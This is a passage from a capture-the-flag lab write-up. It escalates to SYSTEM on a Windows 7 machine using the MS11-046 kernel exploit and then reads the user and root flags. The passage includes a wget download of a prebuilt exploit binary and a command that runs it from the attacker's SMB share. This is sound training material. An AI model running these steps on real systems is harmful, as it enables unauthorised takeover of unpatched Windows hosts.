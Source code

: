 236 vulnerabilities! How do I pick? I honestly don't know! Based on what others used, I'll go with `MS11-046` (`CVE-2011-1249`). It's likely many others would have worked too, but it was quick to find a exploit file for this one so I'm going with it:

```
Date: 20110614
CVE: CVE-2011-1249
KB: KB2503665
Title: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege
Affected product: Windows 7 for 32-bit Systems
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a
```

I found a `.exe` exploit [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046):

```
$ wget https://github.com/abatchy17/WindowsExploits/raw/refs/heads/master/MS11-046/MS11-046.exe

...

Saving to: ‘MS11-046.exe’

MS11-046.exe                100%[=========================================>] 110.17K  --.-KB/s    in 0.02s

2025-04-19 18:12:45 (6.60 MB/s) - ‘MS11-046.exe’ saved [112815/112815]
```

It's saved to the directory where we have been running the SMB server since earlier, so we can simply execute it that way:

```
c:\windows\system32\inetsrv>\\10.10.14.17\myshare\MS11-046.exe

c:\Windows\System32>whoami
nt authority\system
```

And that worked! We'll take our well-deserved flags home:

```
c:\Windows\System32>cd C:\Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users

18/03/2017  02:16 ��    <DIR>          .
18/03/2017  02:16 ��    <DIR>          ..
18/03/2017  02:16 ��    <DIR>          Administrator
17/03/2017  05:17 ��    <DIR>          babis
18/03/2017  02:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  10:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.692.312.064 bytes free

C:\Users>type babis\Desktop\user.txt
2a9f0d928f054c4f92cc6b6241******

C:\Users>type Administrator\Desktop\root.txt
f9401b9389e48d2c551552b9d1******
```
